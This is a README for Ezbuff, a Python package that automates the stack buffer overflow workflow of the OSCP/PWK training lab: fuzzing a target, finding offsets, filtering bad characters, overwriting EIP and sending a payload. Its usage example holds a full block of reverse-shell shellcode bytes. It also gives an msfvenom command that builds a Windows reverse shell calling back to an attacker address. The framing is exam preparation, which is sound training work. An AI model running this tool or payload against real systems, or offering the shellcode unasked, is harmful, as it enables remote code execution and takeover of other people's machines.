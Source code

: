 # Ezbuff
Ezbuff is a Python package created to make the **2020 PWK buffer overflow** easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their **OSCP** exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like determining the actual number of bytes to send to crash the vulnerable application, filtering bad characters from registers, and payload generation are all left to the user.

## Installation
```python
pip3 install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff import Overflow

def main():
	# Instanstantiate `Overflow` object
	obj = Overflow("192.168.230.10", 80, max_fuzz_bytes=2000)

	# to obtain details on the object you instantiated
	print(obj)
	# for more details
	print(repr(obj))

	# Change the target IP if running in interactive Python interpreter
	obj.targ_ip = "127.0.0.1"

	# Change the target port number if running in interactive Python interpreter
	obj.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 5
	obj.fuzz_interval_seconds = 1

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	obj.fuzz_increment = 150

	# Fuzz the vulnerable application
	obj.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accommodate space for reverse shell!!
	# [!] this should be set after running `fuzz` for the remainder of the process
	obj.num_bytes_crash = 1500

	# Sending pattern to determine offset
	obj.send_pattern()

	# Get offset 
	# offset = obj.get_offset("30416B30")
	print(offset)

	# Set offset value after retrieving from function above
	# [!] this should be set after running `get_offset` for the remainder of the process
	obj.offset = 780

	# Testing offset (obj.offset must be set from)
	# obj.test("offset")

	# Add bad characters to list containing bad characters found
	# after sending string of characters
	# [!] after sending a string of characters and finding a bad character
	# 	  append the character as an argument to the function `add_bad_char`
	#	  as shown below
	obj.add_bad_char("\x0a", "\x0d", "\x25", "\x26", "\x2b", "\x3d")

	# Send payload with all characters to find bad characters.
	obj.send_bad_chars()

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	# [!] the `jump_eip` must be bytes as shown below
	obj.jump_eip = b"\x83\x0c\x09\x10"
	obj.test("eip")

	# reverse shell payload
	# [!] must be in bytes
	shellcode = (
b"\xbe\x88\xe8\x2f\x51\xdb\xc0\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
b"\x52\x83\xc2\x04\x31\x72\x0e\x03\xfa\xe6\xcd\xa4\x06\x1e\x93"
b"\x47\xf6\xdf\xf4\xce\x13\xee\x34\xb4\x50\x41\x85\xbe\x34\x6e"
b"\x6e\x92\xac\xe5\x02\x3b\xc3\x4e\xa8\x1d\xea\x4f\x81\x5e\x6d"
b"\xcc\xd8\xb2\x4d\xed\x12\xc7\x8c\x2a\x4e\x2a\xdc\xe3\x04\x99"
b"\xf0\x80\x51\x22\x7b\xda\x74\x22\x98\xab\x77\x03\x0f\xa7\x21"
b"\x83\xae\x64\x5a\x8a\xa8\x69\x67\x44\x43\x59\x13\x57\x85\x93"
b"\xdc\xf4\xe8\x1b\x2f\x04\x2d\x9b\xd0\x73\x47\xdf\x6d\x84\x9c"
b"\x9d\xa9\x01\x06\x05\x39\xb1\xe2\xb7\xee\x24\x61\xbb\x5b\x22"
b"\x2d\xd8\x5a\xe7\x46\xe4\xd7\x06\x88\x6c\xa3\x2c\x0c\x34\x77"
b"\x4c\x15\x90\xd6\x71\x45\x7b\x86\xd7\x0e\x96\xd3\x65\x4d\xff"
b"\x10\x44\x6d\xff\x3e\xdf\x1e\xcd\xe1\x4b\x88\x7d\x69\x52\x4f"
b"\x81\x40\x22\xdf\x7c\x6b\x53\xf6\xba\x3f\x03\x60\x6a\x40\xc8"
b"\x70\x93\x95\x5f\x20\x3b\x46\x20\x90\xfb\x36\xc8\xfa\xf3\x69"
b"\xe8\x05\xde\x01\x83\xfc\x89\xed\xfc\x89\xaf\x86\xfe\x75\x20"
b"\x7e\x76\x93\x2a\x90\xde\x0c\xc3\x09\x7b\xc6\x72\xd5\x51\xa3"
b"\xb5\x5d\x56\x54\x7b\x96\x13\x46\xec\x56\x6e\x34\xbb\x69\x44"
b"\x50\x27\xfb\x03\xa0\x2e\xe0\x9b\xf7\x67\xd6\xd5\x9d\x95\x41"
b"\x4c\x83\x67\x17\xb7\x07\xbc\xe4\x36\x86\x31\x50\x1d\x98\x8f"
b"\x59\x19\xcc\x5f\x0c\xf7\xba\x19\xe6\xb9\x14\xf0\x55\x10\xf0"
b"\x85\x95\xa3\x86\x89\xf3\x55\x66\x3b\xaa\x23\x99\xf4\x3a\xa4"
b"\xe2\xe8\xda\x4b\x39\xa9\xeb\x01\x63\x98\x63\xcc\xf6\x98\xe9"
b"\xef\x2d\xde\x17\x6c\xc7\x9f\xe3\x6c\xa2\x9a\xa8\x2a\x5f\xd7"
b"\xa1\xde\x5f\x44\xc1\xca")
	# `get_payload` takes a parameter which is the name of the reverse shell file you created with msfvenom
	# Don't forget to specify a format in c programming language
	# obj.send_payload(shellcode)

if __name__ == '__main__':
	main()
	
# Sample payload with Msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=1337 EXITFUNC=
# thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"

# Or use Vengen (https://github.com/binexisHATT/Vengen) to generate payloads with your custom options! 
```
